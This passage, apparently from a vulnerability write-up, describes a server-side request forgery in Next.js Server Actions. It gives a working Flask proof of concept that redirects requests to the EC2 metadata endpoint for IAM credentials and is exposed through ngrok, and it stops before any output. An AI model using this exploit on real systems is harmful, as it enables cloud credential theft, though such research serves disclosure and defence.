     ![image](src/4.png)

    According to [Next.js documentation](https://nextjs.org/docs/14/app/api-reference/functions/redirect), the `303 See Other` response is used when performing a redirect within a Server Action. To exploit this behavior, we create a proof of concept (PoC) using Python Flask that attempts to fetch data from the EC2 metadata service at `http://169.254.169.254/latest/meta-data/iam/security-credentials/`. We then expose the server publicly using [ngrok](https://ngrok.com/). The PoC is as follows:

    ```python
    from flask import Flask, request, Response, redirect

    app = Flask(__name__)

    @app.route('/Diavolo', methods=['HEAD', 'GET'])
    def index():
        if request.method == 'HEAD':
            print(request.headers)
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect("http://169.254.169.254/latest/meta-data/iam/security-credentials/")
    app.run(port=5000)
    ```

3. Exploiting EC2 Metadata

    After running the PoC, we'll get the following response:
